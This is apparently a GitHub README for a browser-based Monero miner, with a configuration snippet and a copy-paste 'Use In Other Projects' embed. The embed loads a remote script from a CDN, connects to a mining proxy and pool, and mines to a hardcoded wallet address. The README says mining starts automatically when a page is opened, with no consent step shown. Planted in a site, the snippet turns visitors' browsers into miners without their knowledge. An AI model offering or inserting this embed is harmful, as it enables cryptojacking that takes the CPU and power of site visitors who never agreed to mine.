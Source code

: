 ## Monero Webminer

Html & Js code that allows Mining of XMR (Monero) on browsers


# Configure

In Mine.Html you will see a address change this for your Monero address and you will be mining.

```javascript
server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = " PUT YOUR ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
```
# Running

Open index.html in any web browser and it will automatically start mining.

https://najmajmal.github.io/monero-webminer


# Check Progress 

Go to https://moneroocean.stream . This is the pool you are connected to, it will show your hashrate and balance.

# Use In Other Projects 

      <!-- Start Of Mining Code -->
      <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
      <script>
          server = "wss://f.xmrminingproxy.com:8181";
          var pool = "moneroocean.stream";
          var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
          var workerId = "nahh"
          var threads = -1;
          var password = "";
          startMining(pool, walletAddress, workerId, threads, password);
          throttleMiner = 20;
      </script>
      <!-- End Of Mining Code -->
